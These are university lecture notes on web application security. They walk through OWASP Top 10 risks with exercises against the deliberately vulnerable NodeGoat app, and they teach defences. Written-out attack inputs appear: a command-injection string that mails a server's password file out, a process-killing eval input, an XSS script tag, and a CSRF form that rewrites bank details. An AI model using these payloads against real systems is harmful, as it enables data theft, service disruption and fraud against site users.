




# Web security <!-- omit in toc -->

:point_right: [Overview of all Lecture 8 materials](README.md#lecture-8)

*At times we use :point_up: and :point_down: to make it clear whether an explanation belongs to the code snippet above or below the text. The :bangbang: sign is added to code examples you should run yourself.*

## Table of Contents <!-- omit in toc -->
- [Learning goals](#learning-goals)
- [Introduction](#introduction)
- [Threat categories](#threat-categories)
    - [Defacement](#defacement)
    - [Data disclosure](#data-disclosure)
    - [Data loss](#data-loss)
    - [Denial of service](#denial-of-service)
    - [Foot in the door](#foot-in-the-door)
    - [Unauthorized access](#unauthorized-access)
- [Most frequent vulnerabilities](#most-frequent-vulnerabilities)
- [NodeGoat](#nodegoat)
- [OWASP Top 10 in practice](#owasp-top-10-in-practice)
    - [Injection](#injection)
        - [:bangbang: NodeGoat](#bangbang-nodegoat)
        - [How to avoid it](#how-to-avoid-it)
        - [SQL injection](#sql-injection)
    - [Broken authentication](#broken-authentication)
        - [:bangbang: NodeGoat](#bangbang-nodegoat)
        - [How to avoid it](#how-to-avoid-it)
    - [XSS](#xss)
        - [:bangbang: NodeGoat](#bangbang-nodegoat)
        - [How to avoid it](#how-to-avoid-it)
    - [Direct object references](#direct-object-references)
        - [:bangbang: NodeGoat](#bangbang-nodegoat)
        - [How to avoid it](#how-to-avoid-it)
    - [Security misconfiguration](#security-misconfiguration)
        - [How to avoid it](#how-to-avoid-it)
    - [Sensitive data](#sensitive-data)
        - [How to avoid it](#how-to-avoid-it)
    - [Access controls](#access-controls)
        - [How to avoid it](#how-to-avoid-it)
    - [CSRF](#csrf)
        - [:bangbang: NodeGoat](#bangbang-nodegoat)
        - [How to avoid it](#how-to-avoid-it)
    - [Insecure components](#insecure-components)
    - [Unvalidated Redirects](#unvalidated-redirects)
        - [How to avoid it](#how-to-avoid-it)
- [Summary](#summary)
- [Self-check](#self-check)

## Learning goals

- Describe the most common security issues in web applications.
- Describe and implement a number of attacks that can be executed against unsecured code.
- Implement measures to protect a web application against such attacks.

## Introduction

Web applications are an attractive target for *attackers* (also known as *malicious users*) for several reasons:

- Web applications are open to attack from **different angles** as they rely on various software systems to run: an attacker can go after the **web server** hosting the web application, the **web browser** displaying the application and the **web application** itself. The **user**, of course, is also a point of attack.
- Successfully attacking a web application with thousands or millions of users offers a lot of potential gain.
- "Hacking" today does not require expert knowledge, as easy-to-use automated tools are available that test servers and applications for known vulnerabilities (e.g. [Wapiti](http://wapiti.sourceforge.net/), [w3af](http://w3af.org/)).

When developing a web application, it is useful to ask yourself **how can it be attacked?** and secure yourself against those attacks. While web applications are relatively easy to develop thanks to the tooling available today, they are difficult to secure as that step requires substantial technological understanding on the part of the developer.

Large-scale web portals such as Facebook have partially "outsourced" the finding of security issues to so-called *white hat hackers* - people interested in security issues that earn money from testing companies' defenses and pointing them towards specific security issues. [By 2016, Facebook, for example, had paid out millions in *bug bounties*](https://www.facebook.com/notes/facebook-bug-bounty/facebook-bug-bounty-5-million-paid-in-5-years/1419385021409053/), while [Google paid 36K to a single bug hunter](https://www.cnbc.com/2018/05/26/teenager-wins-36k-from-google-bug-bounty-program.html) once.
Bug bounty programs are run to this day by, among others, [Facebook](https://www.facebook.com/whitehat), [Google](https://www.google.com/about/appsecurity/reward-program/), [PayPal](https://www.paypal.com/us/webapps/mpp/security-tools/reporting-security-issues), [Quora](https://engineering.quora.com/Security-Bug-Bounty-Program), [Mozilla](https://www.mozilla.org/en-US/security/bug-bounty/) and [Microsoft](https://www.microsoft.com/en-us/msrc/bounty).

## Threat categories

There are a number of overarching threat categories, we introduce each of them with a concrete security incidence.

### Defacement

Website defacement is an attack against a website that changes the visual appearance of a site.

A famous example here is CERN, [which in 2008 had one of its portals defaced by a Greek hacker group](https://astroengine.com/2008/09/16/greek-hackers-invade-lhc-nothing-much-happens/). This benevolent looking  page:



became this one:


Beside defacement, no damage was done. Despite this, the attack was a cause for concern as the "hacked" web server formed part of the monitoring systems for some of the Large Hadron Collider detector hardware.

### Data disclosure

Data disclosure is a threat that is recurrently in the news, when a large company has to admit once again that some of their user data was accessible to malicious users - the most recent example (as of 10/2018) being [Facebook's security breach of 50 million user accounts](https://www.nytimes.com/2018/09/28/technology/facebook-hack-data-breach.html).

A less well-known example is a [2015 attack against VTech](http://www.computerworld.com/article/3009236/cybercrime-hacking/massive-vtech-hack-exposes-data-of-nearly-5-million-parents-and-over-200-000-kids.html), a toy producer. In this instance the attackers gained access to nearly 5 million records of parents including their email addresses and passwords. Worst of all, while the passwords were stored encrypted, the security questions were stored in plaintext, making them an easy target to exploit.

### Data loss

This threat is the most devastating for organizations that do not have proper backups in place: attackers are deleting data from servers they infiltrate.

Code Spaces ([snapshot of their splash page in 2014](https://web.archive.org/web/20140219025823/http://www.codespaces.com:80/)) used to be a company providing secure hosting options and project management services for companies. Until the day the [*Murder in the Amazon cloud*](http://www.infoworld.com/article/2608076/data-center/murder-in-the-amazon-cloud.html) happened - the title of the article is not an exaggeration. Code Spaces was built on Amazon Web Services (AWS), one of the major cloud computing platform providers used by many companies due to their low cost. Services on demand tend to be much cheaper and easier to work with than running and maintaining one's own hardware. AWS has an easy to use interface to spin up servers - a Web interface that has (of course) an authentication step built-in: 


An attacker managed to get access to this interface and threatened to shut down the servers and delete the data snapshots (literally possible with a click of a button) unless a ransom was paid. The company did not pay and tried to regain control of their AWS control panel. By the time this was achieved, the attacker had already deleted almost all resources. As Code Spaces had decided to run the servers **and their backups** from the same AWS account, they were all vulnerable at once. The company clients' data was gone and [Code Spaces shut down](https://web.archive.org/web/20140625045902/http://www.codespaces.com/).

### Denial of service

Denial of service (DoS) attacks make web applications unavailable for legitimate users.

To showcase this threat we use a 2015 Steam store attack, which is extensively described in a [Steam post](https://store.steampowered.com/news/19852/). A signature of a DoS attack is the abnormal traffic increase - in this case, the Steam store had to deal with a 2000% increase in traffic. Steam had a defense against a DoS attack in place to minimize the impact on Steam's servers; however, the defense (caching rules of additional web caches) was imperfect and incorrectly cached web traffic was shown to authenticated users, which means that some users saw other people's account page.

### Foot in the door

The most difficult component of a system to secure is its users. Phishing and social engineering can lead unsuspecting users to give access to some part of the secured system to attackers - this is the foot in the door from there. Once in, attackers try to infiltrate other internal systems.

A common example (also described in this [attack on the US State Department](https://edition.cnn.com/2015/04/07/politics/how-russians-hacked-the-wh/)) is the sending of emails to government employees impersonating a colleague and requesting access to a low-level security system. Who knows whom can often be inferred from public appearances, the staff overview on websites, public documents, and so on. Often, access is simply granted by the unsuspecting user, despite policies to the contrary.

### Unauthorized access

In this threat type, attackers can use functions of a web application they should not be able to use. 

An example here is [Instagram's backend admin panel](https://www.hackread.com/instagram-hacked-researcher-gets-admin-panel-access/) which was accessible on the web while it should have only been accessible from the internal Instagram network.  

## Most frequent vulnerabilities

In order to effectively secure a web application, it helps to know what the most frequent security issues are.

Let's turn to the [Cyber security risk report 2016 published by HPE](https://www.thehaguesecuritydelta.com/media/com_hsd/report/57/document/4aa6-3786enw.pdf) (CSRHPE) to answer this question. For this report, several thousand applications (mobile, web, desktop) were sampled and their security was probed. Here, we go over some of the most important findings concerning web applications.

The most important **software security issues** for web and mobile applications are the following, reported as *percentage of scanned applications*:



<sup>Figure taken from page 56, CSRHPE.</sup>

:point_up: In general, mobile applications are more vulnerable than web applications; the worst issues were found in the *security features* category, which includes authentication, access control, confidentiality and cryptography issues. 99% of mobile applications had at least one issue here. The *environment* category is also problematic with 77% of web applications and 88% of mobile applications having an issue here - this refers to server misconfigurations, improper file settings, sample files and outdated software versions. The third category to mention is *Input validation and representation* which covers issues such as cross-site scripting (we cover this later in this lecture) and SQL injection (covered in a DB lecture), which is present in most mobile applications and 44% of web applications. The latter is actually surprising, as a lot of best practices of how to secure web applications exist - clearly though, these recommendations are often ignored.

If we zoom in on the non-mobile applications, the ten most commonly occurring vulnerabilities are the following, reported as the *percentage of applications* and *median vulnerability count*:


<sup>Figure taken from page 57, CSRHPE.</sup>

:point_up: Some of these vulnerabilities you should already recognize and be able to place in context, specifically *Cookie Security: cookie not sent over SSL* and *Cookie Security: HTTPOnly not set*. The vulnerability *Privacy violation: autocomplete* should intuitively make sense: auto-completion is a feature provided by modern browsers; browsers store information submitted by the user through `<input>` fields. The browser can then offer autocompletion for subsequent forms with similar field names. If sensitive information is stored in this manner, a malicious actor can provide a form to a user that is then auto-filled with sensitive values and transmitted back to the attacker. For this reason, it is often worthwhile to [switch off autocompletion](https://developer.mozilla.org/en-US/docs/Web/Security/Securing_your_site/Turning_off_form_autocompletion) for sensitive input fields.

:point_up: Lastly, let's discuss the *Hidden field* vulnerability. It provides developers with a simple manner of including data that should not be seen/modified by users when a `<form>` is submitted. For example, a web portal may offer the same form on every single web page and the hidden field stores a numerical identifier of the specific page (or route) the form was submitted from. However, as with any data sent to the browser, with a bit of knowledge about the dev tools available in modern browsers, the user can easily change the hidden field values, which creates a vulnerability of the server does not validate the correctness of the returned value.

Taking a slightly higher-level view, the top five violated security categories across all scanned applications are the following, reported as *percentage of applications violating a category*:


<sup>Figure taken from page 59, CSRHPE.</sup>

The only category not covered so far is *Insecure transport*. This refers to the fact that applications rely on insecure communication channels or weakly secured channels to transfer sensitive data. Nowadays, at least for login/password fields, the browsers provide a warning to the user indicating the non-secure nature of the connection, as seen in this example:



It is worth noting that in recent years browsers have implemented support for the `Strict-Transport-Security` header, which allows web applications to inform the browser that it should **only** be accessed via HTTPS. This prevents attacks such as described in this [MDN article on `Strict-Transport-Security`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Strict-Transport-Security):

```console
You log into a free WiFi access point at an airport and start surfing the web, visiting your
online banking service to check your balance and pay a couple of bills. Unfortunately, the
access point you're using is actually a hacker's laptop, and they're intercepting your original
HTTP request and redirecting you to a clone of your bank's site instead of the real thing.
Now your private data is exposed to the hacker.

Strict Transport Security resolves this problem; as long as you've accessed your bank's website
once using HTTPS, and the bank's website uses Strict Transport Security, your browser will know
to automatically use only HTTPS, which prevents hackers from performing this
sort of man-in-the-middle attack.
```

## NodeGoat

One of the best ways to learn about web security is to try out a few of the introduced techniques in an actual web application that is vulnerable. As we covered Node.js/Express, most useful to us is a vulnerable web application that was written in Node.js/Express.

The [OWASP NodeGoat project](https://github.com/OWASP/NodeGoat) was designed specifically for this purpose. It provides an *"environment to learn how OWASP Top 10 security risks apply to web applications developed using Node.js"*. OWASP stands for [Open Web Application Security Project](https://www.owasp.org) and is an organization whose mission is to improve software security. Creating a vulnerable application to showcase the worst security issues is one way to train software engineers in web security.

The NodeGoat project implements an *Employee Retirement Savings Management* system called RetireEasy - we already saw a glimpse of it in the previous section.

Apart from providing a vulnerable application, NodeGoat also provides a helpful [tutorial](http://nodegoat.herokuapp.com/tutorial) on the implemented vulnerabilities, how to execute attacks and, importantly, how to mitigate them.

## OWASP Top 10 in practice

In the following sections, we will discuss the OWASP Top 10 vulnerabilities (derived by consensus from security experts) on the example of NodeGoat. Some of them will be introduced in more detail than others.

### Injection

Injection attacks exploit the fact that input is interpreted by the server without any checks. A malicious user can create input that leads to unintended command executions on the server.

Input for injection attacks can be created via:

- Parameter manipulation of HTML forms (e.g. input fields are filled with JavaScript code);
- URL parameter manipulation;
- HTTP header manipulation;
- Hidden form field manipulation;
- Cookie manipulation.

Injection attacks on the server can take multiple forms, we first consider **OS command injection**:



:point_up: Here, we have a web portal that allows a user to sign up to a newsletter. The form looks simple enough: one `<input type="text">` element and a `<button>` to submit the form. On the server-side, a bash script takes a fixed confirmation string (stored in file `confirm`) and sends an email to the email address as stated in the user's input (*Thank you for signing up for our mailing list.*). This setup of course assumes, that the user actually used an email address as input. Let's look at benign and malicious user input:

- The benign input `john@test.nl` leads to the following OS command: `cat confirm|mail john@test.nl`. This command line is indeed sufficient to send an email, as Linux has a command line [mail](https://linux.die.net/man/1/mail) tool.
- An example of malicious input is the following: `john@test.nl; cat /etc/password | mail john@test.nl`. If the input is not checked, the server-side command line will look as follows: `cat confirm | mail john@test.nl; cat /etc/password | mail john@test.nl`. Now, two emails are sent: the confirmation email and a mail sending the server's file `/etc/password` to `john@test.nl`. This is clearly *unintended code execution.*.

Web applications that do not validate their input are also attackable, if they interpret the user's input as JavaScript code snippet. Imagine a calculator web application that allows a client to provide a formula, that is then send to the server, executed with the result being sent back to the client. JavaScript offers an [`eval()`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval) function that takes a string representing JavaScript code and runs it, e.g. the string `100*4+2` can be evaluated with `eval('100*4+2')`, resulting in `402`. However, a malicious user can also input `while(1)` or [`process.exit()`](https://nodejs.org/api/process.html#process_process_exit_code); the former leads the event loop to be stuck forever in the while loop, while the latter instructs Node.js to terminate the running process. Both of these malicious inputs constitute a denial of service attack.

`eval()` in fact is so dangerous that [it should never be used](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval#Do_not_ever_use_eval!).

#### :bangbang: NodeGoat

1. To try out this attack, head to NodeGoat's installation at http://nodegoat.herokuapp.com/login. 
2. Login with `user1` (user) and `User1_123` (password).
3. On the left-hand side, click on *Contributions*.
4. To explore the effect of different inputs, try out a few numbers and strings in the three *New Payroll Contribution Percent* form fields.
5. In one of the form fields, now fill in `process.exit()` and click `Submit`.
6. You should now see an application error.

#### How to avoid it

Injection attacks can be avoided by **validating** user input (e.g. is this input really an email address?) and **sanitizing** it (e.g. by stripping out potential JavaScript code elements). These steps should occur **on the server-side**, as a malicious user can always circumvent client-side validation/sanitation steps.

A popular Node package that validates and sanitizes user input is [validator](https://www.npmjs.com/package/validator). For example, to check whether a user input constitutes a valid email address, the following two lines of code are sufficient:

```javascript
var validator = require('validator');
var isEmail = validator.isEmail('while(1)'); //false
```

As stated earlier, `eval()` should be avoided at all costs.

#### SQL injection

One important injection type is missing in the above list: **SQL injections**. They will be covered in the database part of this course.

### Broken authentication

Recall that in order to establish *sessions*, cookies are used ([Lecture 7](Lecture-7.md)). A cookie stores a randomly generated user ID on the client, the remaining user information is stored on the server:


An attacker can exploit broken authentication and session management functions to impersonate a user. In the latter case, the attacker only needs to acquire knowledge of a user's session cookie ID. This can happen under several conditions:

- Using **URL rewriting** to store session IDs. Imagine the following scenario: a bookshop supports URL rewriting and includes the session ID in the URL, e.g. http://mybookshop.nl/sale/sid=332frew3FF?basket=B342;B109. An authenticated user of the site (who has stored her credit card information on the site) wants to let her friends know about her buying two books. She e-mails the link without realizing that she is giving away her session ID. When her friends use the link they will use her session and are thus able to use her credit card to buy products.
- **Storing a session ID in a cookie without informing the user**. A user may use a public computer to access a web application that requires authentication. Instead of logging out, the user simply closes the browser tab (this does NOT delete a session cookie!). An attacker uses the same browser and application a few minutes later - the original user will still be authenticated.
- **Session ID are sent via HTTP** instead of HTTPS. In this case, an attacker can listen to the network traffic and simply read out the session ID. The attacker can then access the application without requiring the user's login/password.
- **Session IDs are static instead of being rotated**. If session IDs are not regularly changed, they are more easily guessable.
- **Session IDs are predictable.** Once an attacker gains knowledge of how to generate valid session IDs, the attacker can wait for a user with valuable information to pass by.

#### :bangbang: NodeGoat

1. Head to NodeGoat's installation at http://nodegoat.herokuapp.com/login. 
2. Open the browser's dev tools. In particular, the **Storage Inspector** allows you to view the cookies stored by the client.
3. Login with `user1` (user) and `User1_123` (password).
4. Check the cookie value of `connect.sid`.
5. Close the browser tab.
6. Open a new browser tab and access http://nodegoat.herokuapp.com/. No login should be required.
7. Head to the Storage Inspector and delete the session cookie.
8. Access http://nodegoat.herokuapp.com/. A login should be required.

#### How to avoid it

- Good authentication and session management is difficult - avoid if possible an implementation from scratch.
- Ensure that the session ID is **never sent over the network unencrypted**.
- Session IDs should not be visible in URLs.
- Generate a new session ID on login and **avoid reuse**.
- Session IDs should have a timeout and be invalidated on the server after the user ends the session.
- Conduct a sanity check on HTTP header fields (refer, user agent, etc.).
- Ensure that users' login data is stored securely.

### XSS

XSS stands for **cross-site scripting**.

*"XSS flaws occur when an application includes user supplied data in a page sent to the browser without properly validating or escaping that content."* (OWASP)

The browser executes JavaScript code all the time; this code is **not** checked by anti-virus software. The browser's sandbox is the main line of defense.

XSS attacks come in two flavours: stored XSS and reflected XSS.

**Stored XSS**: the injected script is **permanently stored on the target server** (e.g. in a database or text file). The victim retrieves the malicious script from the server, when she requests the stored information. This attack is also known as **persistent or Type-I** XSS.

A common example :point_down: of stored XSS are forum posts: if a malicious user is able to add a comment to a page that is not validated by the server, the comment can contain JavaScript code. The next user (victim) that views the forum posts receives the forum data from the server, which now includes the malicious code. This code is then executed by the victim's browser.

```console
http://myforum.nl/add_comment?c=Let+me+…
http://myforum.nl/add_comment?c=<script>…
```

In a **reflected XSS** attack (also known as **non-persistent or Type-II** attack), the injected script is not stored on the server; instead, it is *reflected* off the target server. A victim may for instance receive an email with a tainted link that contains malicious URL parameters.

In the example :point_down: the tainted URL contains JavaScript code as query. An unsuspecting user (the victim) may receive this URL in an email and trust it, because she trusts http://myforum.nl. The malicious code is reflected off the server and ends up in the victim's browser, which executes it.

```console
http://myforum.nl/search?q=Let+me+…
http://myforum.nl/search?q=<script>…
```

#### :bangbang: NodeGoat

1. Head to NodeGoat's installation at http://nodegoat.herokuapp.com/login. 
2. Login with `user1` (user) and `User1_123` (password).
3. Click *Profile* on the left-hand tab.
4. In the *First Name* field, type `<script>alert("Hello there!")</script>`. Also fill the *bank routing #* field with a random value since it is mandatory.
5. Click *Submit*. You should now see an alert dialogue.
6. Head to the top-right corner and check the profile by clicking on the *Profile* link. Again, the alert dialogue pops up as the code has been stored on the server. This is thus a stored XSS attack.

#### How to avoid it

As before, **validation** of user input is vital. A server that generates output based on user data should **escape** it (e.g. escaping `<script>` leads to `&lt;script&gt;`), so that the browser does not execute it.

### Direct object references

Web applications often make use of direct object references when generating a HTTP response. We have already seen this in a code snippet in [Lecture 6](Lecture-6.md):

```javascript
var todoTypes = {
    important: ["TI1506","OOP","Calculus"],
    urgent: ["Dentist","Hotel booking"],
    unimportant: ["Groceries"],
};

app.get('/todos/:type', function (req, res, next) {
    var todos = todoTypes[req.params.type];
    if (!todos) {
        return next(); // will eventually fall through to 404
    }
    res.send(todos);
});
```

Here, we use the routing parameter `:type` as key of the `todoTypes` object. Often, applications do not verify whether a user requesting a particular route is authorized to access the target object. This leads to so-called *insecure direct object references*. A malicious user can test different routes to determine whether this issue exists.

Consider a user who accesses her list of todos using the following URL `http://mytodos.nl/todos?id=234`. Nothing stops the user from also trying, e.g. `http://mytodos.nl/todos?id=2425353` or `http://mytodos.nl/todos?id=1`. If the id values are insecure direct object references, the user can view other users' to-do lists in this manner.

#### :bangbang: NodeGoat

1. Head to NodeGoat's installation at http://nodegoat.herokuapp.com/login. 
2. Login with `user1` (user) and `User1_123` (password).
3. Click *Allocations* on the left-hand tab.
4. Check the URL, it should be http://nodegoat.herokuapp.com/allocations/2.
5. Check the name of the *Asset Allocations*, it should be the *last name* you entered, e.g., *boo*.
6. Now change the URL of step (4) by replacing the `/2` with `/3` or `/4`. You should now see the *Asset Allocations* of a different users, without requiring any login data.

#### How to avoid it

- Avoid the use of direct object references (indirect is better).
- Use of objects should always include an authorization subroutine.
- Avoid exposing object IDs, keys and filenames to users.

### Security misconfiguration

Web application engineering requires extensive knowledge of system administration and the entire Web development stack.
Issues can arise everywhere (Web server, database, application framework, operating system, etc.):

- Default accounts and passwords remain set.
- Resources may be publicly accessible that should not be.
- The root user can log in via SSH (this allows remote access).
- Security patches are not applied on time.

#### How to avoid it

Install the latest stable version of Node.js and Express. Install security updates. Rely on [`npm audit`](https://docs.npmjs.com/auditing-package-dependencies-for-security-vulnerabilities) (and then `npm audit fix`) to assess and fix your dependencies' security issues.

A popular package to secure Express-based applications is [Helmet](https://www.npmjs.com/package/helmet). It acts as middleware in Express applications and sets HTTP headers according to best security practices. 

Rely on automated scanner tools to check Web servers for the most common types of security misconfigurations.

### Sensitive data

If a Web application does not use HTTPS for all authenticated routes (HTTPS is needed to protect the session cookie), a malicious user can monitor the network traffic and steal the user's session cookie.

If a Web application relies on outdated encryption strategies to secure sensitive data, it is just a matter of time until the encryption is broken.

#### How to avoid it

- All sensitive data should be encrypted across the network and when stored.
- Only store the necessary sensitive data and discard it as soon as possible (e.g. credit card numbers).
- Use strong encryption algorithms (a constantly changing target).
- Disable autocompletion on HTML forms collecting sensitive data.
- Disable caching for pages containing sensitive data.

### Access controls

A malicious user, who is authorized to access a Web application (e.g. a student accessing Brightspace), changes the URL (or URL parameters) to a more privileged function (e.g. from student to grader). If access is granted, **insufficient function level access control** is the culprit.

This attack is similar to [Direct object references](#direct-object-references). A malicious user tests a range of target URLs that should require authentication. This is especially easy for large Web frameworks which come with a number of default routes enabled.

#### How to avoid it

Use of functions should always include an authorization subroutine.

### CSRF

CSRF (:speaker: *sea-surf*) stands for **Cross-Site Request Forgery**.

In the words of OWASP: *"An attacker creates forged HTTP requests and tricks a victim into submitting them via image tags, XSS, or numerous other techniques. If the user is authenticated, the attack succeeds."*

Here is an example scenario: imagine a Web application that allows users to transfer funds from their account to other accounts: `http://mygame.nl/transferFunds?amount=100&to=342432` - the URL contains the amount and which account to send it to. The victim is already authenticated. An attacker constructs a request to transfer funds to her own account and embeds it in an image request stored on a site under her control:

```html

```

If the victim access the website that is under the attacker's control (e.g. because the attacker send the victim an enticing email to access the URL), the browser downloads the HTML, parses it and starts rendering. It will automatically download the image without checking whether the `src` is actually an image. The transfer of funds will then take place if the web application the user is authenticated to does not defend against a CSRF attack (This occurs when the web application cannot distinguish between a forged and legitimate request).

#### :bangbang: NodeGoat

1. Head to NodeGoat's installation at http://nodegoat.herokuapp.com/login. 
2. Login with `user1` (user) and `User1_123` (password).
3. Click *Profile* and check the current *Bank Account* and *Bank Routing* numbers. 
4. Now save the following HTML document:

```html
<!doctype html>
<html lang="en">
    <head>
    </head>
    <body>
        <form method="POST" action="http://nodegoat.herokuapp.com/profile">
            <h1> You are about to win a brand new phone!</h1>
            <h2> Click on the win button to claim it...</h2>
            <input type="hidden" name="bankAcc" value="2"/>
            <input type="hidden" name="bankRouting" value="2#"/>
            <input type="submit" value="Win !!!"/>
        </form>
    </body>
</html>
```

and open it in a new browser tab. This is the attacker's site.

5. Click the *Win* button. You are now redirected. On the *Profile* page you should now see bank account and bank routing numbers set to `2`.

#### How to avoid it

The main reason why this attack is successful in our example is due to the server *trusting* that the request was made with this intention by the victim - the request has the correct session ID and the server simply responds to the request.

How can the server validate that this request was intentionally sent by the user? The most common approach today is via a so-called *CSRF token*, a randomly generated string, generated by the server, that is unpredictable and cannot be guessed. The server inserts this CSRF token in the response, typically in a hidden form field (**not** in a cookie). The server also keeps track of the combination of session ID and CSRF token. When the user then fills in the form and submits it to the server, the CSRF token is returned to the server and the server checks whether it matches the one it has on record. If it is a match, the server executes the requested action (e.g. changing a user's profile data) and rejects it otherwise. An attacker is not able to guess this CSRF token - as long as we do not rely on cookies to store CSRF tokens, as cookies are appended to the HTTP request automatically by the browser. Although the attacker can try to guess a valid CSRF token, it should be impossible if the server generates CSRF tokens according to best practices.

As CSRF tokens are an established line of defense, Express middleware exists (a popular option is [csurf](https://www.npmjs.com/package/csurf)) that takes care of the generation and validation of CSRF tokens.

Another option for a web application to verify that a user intended a particular request are the use of reauthentication (the user is asked to authenticate again, e.g., if the request takes place at an unusual time, or at an unusual location).

Going back to our example, if a user is accessing a *Win an iPAD* web site and after submitting her ticket receives a request to reauthenticate to her online banking provider, she should realize that something is off.


### Insecure components

Vulnerabilities of software libraries and frameworks are continuously being discovered and patched. An application that is not patched when a vulnerability becomes known is a candidate for exploitation. It is important to be aware of the dependencies of one's Node.js application and install security patches quickly when they become available. 

Not only the application itself needs to be kept up-to-date. The server's operating system also needs to be continuously patched, as well as any other software used to support the web server (e.g. Redis, MongoDB, Nginx).

### Unvalidated Redirects

Let's cite OWASP one last time: *"An attacker links to an unvalidated redirect and tricks victims into clicking it. Victims are more likely to click on it, since the link is to a valid site."*

Here is an example scenario: imagine a web application includes a route called `redirect`. That route takes a URL as parameter and redirects to the URL. Once an attacker finds a route that enables such redirects, the attacker creates a malicious URL that redirects users to her own site for phishing, e.g.

`http://www.mygame.nl/redirect?url=www.malicious-url.com`. 

The user, when seeing this URL in an email or message forum, might just inspect the initial part of the URL, trusts it and subsequently clicks the link as it appears to be leading to `mygame.nl`. Instead of `mygame.nl` it leads to `www.malicious-url.com` which the attacker has under control. If the user does not check the address bar anymore, she will remain under the belief to be on `mygame.nl` - and if she is asked to reenter her credit card information, she may just do that.

#### How to avoid it

This attack can be avoided by disallowing redirects and forwards in a web application. When redirects have to be included, users should not be allowed to redirect via URL parameters (as was possible in the phishing example above). The user-provided redirects need to be validated (does the user have access rights to the target page?).

## Summary

Overall, as we have just seen, web applications offer many angles of attack. Securing a Web application requires extensive knowledge in different areas. When securing a web application, start with defending against the most frequent vulnerabilities.

Keep in mind to sanitize, validate and validate once more.

## Self-check

Here are a few questions you should be able to answer after having followed the lecture and having worked through the required readings:

1. Consider the following list of abilities a malicious user (the attacker) may have who managed to intercept all of your network traffic. Which of these abilities are needed to steal session cookies?
    - The attacker can eavesdrop (read all your HTTP requests).
    - The attacker can inject additional HTTP requests with your source address.
    - The attacker can modify HTTP requests.
    - The attacker can drop HTTP requests.

2. As a Web application user, what makes you most likely to fall victim to a CSRF attack?
    - Using a Web application that is not relying on SSL/TLS.
    - Using the "keep me logged in" option offered by Web applications.
    - Using a Web application with weak encryption.
    - Using the browser’s "remember this password" option when logging into a Web application.

3. What does the *same-origin policy* refer to (recall [Lecture 4](Lecture-4.md), in particular Ajax)? How is this related to web security?

4. Which attack type does this scenarios describe: An attacker sends a browser request to a benign Web site using the credentials of another user (the victim).

5. Which attack type does this scenarios describe: A vulnerability exists if an attacker can inject scripting code into pages generated by a Web application.

6. You have written a Web application with a server-side component (a Node.js script). The Web app requires a number of cookies (all set by the server-side component) to function properly. To minimize the chance of attack you have an idea: you develop a secret function F that computes for each cookie value a checksum. F is only known to you (the owner of the Web application); F cannot be guessed. Initially when each cookie is created, the checksum is appended to the cookie value. When clients send existing cookies back to the server, your server-side component recomputes the checksum of the cookie value (without taking the appended checksum into account) - if the computed checksum is at least as large as the one sent back with the cookie, your application accepts the cookie as valid and non-malicious. Against which attack does this setup protect the Web application?

7. Which of the following approaches is not suitable for an attacker to attempt the injection of malicious data into a server-side application?
    - URL parameter manipulation
    - Hidden HTML field manipulation
    - Cookie manipulation
    - HTML tag manipulation
    - HTTP response header manipulation
  
8. What does a signed cookie protect against?

9.  Which of the following approaches is most likely to secure an application against cross-site request
forgery?
    - Use of state-of-the-art encryption algorithms to store the data on the server.
    - Use of reauthentication and CAPTCHA mechanisms.
    - Avoiding the use of direct object references; the use of objects should include an authorization subroutine.
    - Validating all user input and escaping generated output.
